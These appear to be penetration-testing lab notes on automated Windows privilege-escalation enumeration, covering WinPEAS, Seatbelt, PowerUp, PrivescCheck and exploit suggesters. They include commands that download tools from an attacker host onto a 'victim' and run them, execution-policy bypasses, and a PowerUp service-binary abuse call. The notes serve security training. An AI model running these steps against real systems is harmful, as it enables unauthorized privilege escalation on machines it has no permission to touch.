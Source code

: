 # Automated Enumeration

## WinPEAS

{% code title="On the kali" overflow="wrap" lineNumbers="true" %}
```
sudo apt install peass
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
{% endcode %}

{% code title="On the victim" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> .\winPEASx64.exe > outputfile.exe

```
{% endcode %}

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

## Seatbelt

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.45.189/Seatbelt.exe -Outfile Seatbelt.exe
./Seatbelt -group=all
```
{% endcode %}

## JAWS

## PowerUp

### PWK2024

{% code title="Import PowerUp.ps1 and execute Get-ModifiableServiceFile" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```
{% endcode %}

{% code title="Error from AbuseFunction" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> Install-ServiceBinary -Name 'mysql'

Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql' for service mysql not
modifiable by the current user.
At C:\Users\dave\PowerUp.ps1:2178 char:13
+             throw "Service binary '$($ServiceDetails.PathName)' for s ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (Service binary ...e current user.:String) [], RuntimeException
    + FullyQualifiedErrorId : Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini
   mysql' for service mysql not modifiable by the current user.
```
{% endcode %}

{% code title="Analyzing the function ModifiablePath" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal 

PS C:\Users\dave> $ModifiableFiles
```
{% endcode %}

### [#powerup.ps1](unquoted-service-path.md#powerup.ps1 "mention") - link to Unquoted Service Path

### Old

PowerUp is a PowerShell script that searches common privilege escalation on the target system. You can run it with the `Invoke-AllChecks` option that will perform all possible checks on the target system or use it to conduct specific checks (e.g. the `Get-UnquotedService` option to only look for potential unquoted service path vulnerabilities).

**Reminder**: To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.

\


Running PowerUp.ps1 on the Target System

```shell-session
C:\Users\user\Desktop>powershell.exe -nop -exec bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\user\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...
```

\


![](<../../../.gitbook/assets/image (5).png>)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}

[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1)

```
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended
```

## Windows Exploit Suggester

Update the databases&#x20;

`./windows-exploit-suggester.py --update` &#x20;

To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.

Once this is done, windows-exploit-suggester.py can be run as follows;

`./windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`

A newer version of Windows Exploit Suggester is available [here](https://github.com/bitsadmin/wesng). Depending on the version of the target system, using the newer version could be more efficient.

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

**Metasploit**\



If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.
